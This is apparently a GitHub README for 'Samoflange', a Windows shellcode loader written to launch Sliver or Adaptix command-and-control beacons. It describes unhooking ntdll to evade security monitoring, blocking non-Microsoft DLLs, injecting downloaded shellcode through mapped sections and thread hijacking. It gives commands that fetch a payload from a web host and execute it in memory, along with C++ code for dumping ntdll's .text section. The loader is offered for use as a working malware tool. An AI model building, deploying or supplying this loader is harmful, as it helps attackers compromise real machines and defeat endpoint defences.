 # Samoflange
I created this loader specifically to spawn Sliver or Adaptix beacons. It doesn't catch the resolution of the payload and transfer it back, it's very much a fire-and-forget kind of loader.

I couldn't think of a good name, there isn't any meaning behind it in this case. https://www.youtube.com/watch?v=nbPWMKOBf0g

* First we download a clean copy of ntdll's .text section, Next we patch the current processes ntdll to avoid api hooking.
* Then we spawn a suspended process with `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON`, and map the downloaded shellcode to it with `NtCreateSection` and `NtMapViewOfSection`.
* Finally we locate and hijack and existing thread in the created process to load the payload without creating new threads or making APC calls. It's worth noting that it can take a bit(30 seconds to 1 minute) for the payload to execute once the thread is hijacked. We're changing the context, but Windows probably won't schedule the thread to run instantly.

Also I refactored a couple of the functions that I tend to copy-paste between projects.

The donut generator requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
It should work with any shellcode though, not only donut.
## Usage:
Create your payload
```
python donutGenerator.py -i DOUBTFUL_MANTEL.exe -x "Hello World"
```
Host the payload file and ntdll.dll's text section on a web server and use the loader to download into memory and execute. By default it expects the text section to be named `ntdll.text`.
```
.\Samoflange.exe /p:http://example.com/payload.bin /x:"Hello World"
```
Omit -x or /x: if not using XOR functionality.

## References:
https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking

https://maldevacademy.com/

https://trustedsec.com/blog/malware-series-process-injection-mapped-sections

Fun fact, if you pass `PROCESS_CREATION_MITIGATION_POLICY_STRICT_HANDLE_CHECKS_ALWAYS_ON` with `UpdateProcThreadAttribute` it will also mess with spectre mitigations.

If you don't want to use my ntdll.text or are targetting a different windows version you can use the following C++ function to extract the .text section from your own system.
```
BOOL DumpLocalNtdllTextSection(const char* outputPath) {
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (!hNtdll) return FALSE;

    PBYTE base = (PBYTE)hNtdll;
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)base;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
    PIMAGE_SECTION_HEADER sections = (PIMAGE_SECTION_HEADER)((BYTE*)&nt->OptionalHeader +
        nt->FileHeader.SizeOfOptionalHeader);

    PBYTE textStart = NULL;
    DWORD textSize = 0;
    for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (memcmp(sections[i].Name, ".text", 5) == 0) {
            textStart = base + sections[i].VirtualAddress;
            textSize = sections[i].Misc.VirtualSize;
            break;
        }
    }

    if (!textStart || textSize == 0) {
        printf("[-] Failed to locate .text section in ntdll.dll\n");
        return FALSE;
    }

    FILE* fp = NULL;
    fopen_s(&fp, outputPath, "wb");
    if (!fp) {
        printf("[-] Failed to open %s for writing\n", outputPath);
        return FALSE;
    }

    if (fwrite(textStart, 1, textSize, fp) != textSize) {
        printf("[-] Failed to write full text section to disk\n");
        fclose(fp);
        return FALSE;
    }

    fclose(fp);
    printf("[+] Dumped .text section to %s (%u bytes)\n", outputPath, textSize);
    return TRUE;
}
```
